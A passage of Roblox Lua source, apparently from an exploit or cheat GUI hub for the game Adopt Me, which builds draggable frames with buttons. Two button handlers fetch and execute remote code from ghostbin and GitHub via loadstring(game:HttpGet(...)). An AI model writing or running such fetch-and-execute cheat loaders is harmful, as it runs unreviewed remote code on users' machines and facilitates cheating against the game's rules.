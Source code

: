 	script.Parent.MouseButton1Click:Connect(function()
		loadstring(game:HttpGet("https://ghostbin.com/xh8dc/raw"))();
	end)
end
coroutine.wrap(HPED_fake_script)()
local function KYAMTA_fake_script() -- bozo.LocalScript 
	local script = Instance.new('LocalScript', bozo)

	script.Parent.MouseButton1Click:Connect(function()
		loadstring(game:HttpGet("https://raw.githubusercontent.com/NocturneMoDz/ADOPT-ME-/main/SCRIPT",true))();
	end)
end
coroutine.wrap(KYAMTA_fake_script)()
local function CRDRXFH_fake_script() -- Frame.LocalScript 
	local script = Instance.new('LocalScript', Frame)

	local UIS = game:GetService('UserInputService')
	local frame = script.Parent
	local dragToggle = nil
	local dragSpeed = 0.25
	local dragStart = nil
	local startPos = nil
	
	local function updateInput(input)
		local delta = input.Position - dragStart
		local position = UDim2.new(startPos.X.Scale, startPos.X.Offset + delta.X,
			startPos.Y.Scale, startPos.Y.Offset + delta.Y)
		game:GetService('TweenService'):Create(frame, TweenInfo.new(dragSpeed), {Position = position}):Play()
	end
	
	frame.InputBegan:Connect(function(input)
		if (input.UserInputType == Enum.UserInputType.MouseButton1 or input.UserInputType == Enum.UserInputType.Touch) then 
			dragToggle = true
			dragStart = input.Position
			startPos = frame.Position
			input.Changed:Connect(function()
				if input.UserInputState == Enum.UserInputState.End then
					dragToggle = false
				end
			end)
		end
	end)
	
	UIS.InputChanged:Connect(function(input)
		if input.UserInputType == Enum.UserInputType.MouseMovement or input.UserInputType == Enum.UserInputType.Touch then
			if dragToggle then
				updateInput(input)
			end
		end
	end)
end
coroutine.wrap(CRDRXFH_fake_script)()
local function JALLQG_fake_script() -- Frame.LocalScript 
	local script = Instance.new('LocalScript', Frame)
